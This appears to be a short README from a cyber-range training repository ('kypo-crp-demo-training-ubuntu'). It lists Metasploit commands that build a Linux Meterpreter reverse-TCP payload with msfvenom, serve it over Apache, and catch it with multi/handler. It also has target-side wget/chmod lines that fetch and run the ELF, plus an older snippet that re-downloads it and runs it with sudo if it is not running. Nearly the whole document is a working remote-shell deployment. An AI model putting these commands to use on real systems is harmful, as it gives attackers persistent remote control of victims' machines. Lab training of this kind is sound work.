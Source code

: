 # kypo-crp-demo-training-ubuntu

USE MSFVENOM

---
server
---
wget http://192.168.50.5/shell-x64.elf

chmod +x shell-x64.elf

---
client
---
(Stageless payload)

sudo msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.50.5 LPORT=6996 -f elf -o /var/www/html/shell-x64.elf

sudo service apache2 start

msfconsole

use exploit/multi/handler

set PAYLOAD linux/x64/meterpreter_reverse_tcp

set LPORT 6996

set LHOST 192.168.50.5

exploit

---
old
---
if ! pidof -x /home/server/shell-x64.elf; then sudo /home/server/shell-x64.elf; fi

if [ ! -s /home/server/shell-x64.elf ]; then wget -O /home/server/shell-x64.elf http://192.168.50.5/shell-x64.elf; fi

if [ -s /home/server/shell-x64.elf ]; then chmod +x /home/server/shell-x64.elf; fi
